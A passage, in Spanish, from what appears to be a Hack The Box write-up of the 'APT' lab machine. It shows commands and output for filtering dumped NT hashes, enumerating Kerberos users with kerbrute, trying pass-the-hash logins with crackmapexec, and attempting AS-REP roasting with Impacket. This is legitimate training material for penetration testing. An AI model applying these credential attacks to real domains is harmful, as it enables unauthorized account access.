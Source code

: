 Me quedo con la parte NT y LM de todo el output

```null
cat hashesNT | grep ":" | grep -vE "aes|md5" | sponge hashesNT
```

Por otro lado, me intersa tener los usuarios por separado, para validarlos a través de Kerberos

```null
cat hashesNT | awk '{print $1}' FS=":" > users
```

Y los hashes también los guardo

```null
cat hashesNT | awk '{print $4}' FS=":" | sponge hashesNT
```

De todos los usuarios, solo unos pocos son válidos

```null
kerbrute userenum -d htb.local --dc APT users

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 01/24/23 - Ronnie Flathers @ropnop

2023/01/24 09:27:02 >  Using KDC(s):
2023/01/24 09:27:02 >   APT:88

2023/01/24 09:27:07 >  [+] VALID USERNAME:   Administrator@htb.local
2023/01/24 09:27:07 >  [+] VALID USERNAME:   APT$@htb.local
2023/01/24 09:31:03 >  [+] VALID USERNAME:   henry.vinson@htb.local
```

A la hora de validar el hash de henry.vinson, no es el correcto

```null
crackmapexec smb APT -u henry.vinson -H 2de80758521541d19cabba480b260e8f
SMB         APT             445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         APT             445    APT              [-] htb.local\henry.vinson:2de80758521541d19cabba480b260e8f STATUS_LOGON_FAILURE 
```

Si no requiere de autenticación previa de Kerberos, puedo solicitar un TGT y tratar de crackearlo

```null
GetNPUsers.py htb.local/ -no-pass -usersfile valid_users
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User APT doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User henry.vinson doesn't have UF_DONT_REQUIRE_PREAUTH set
```
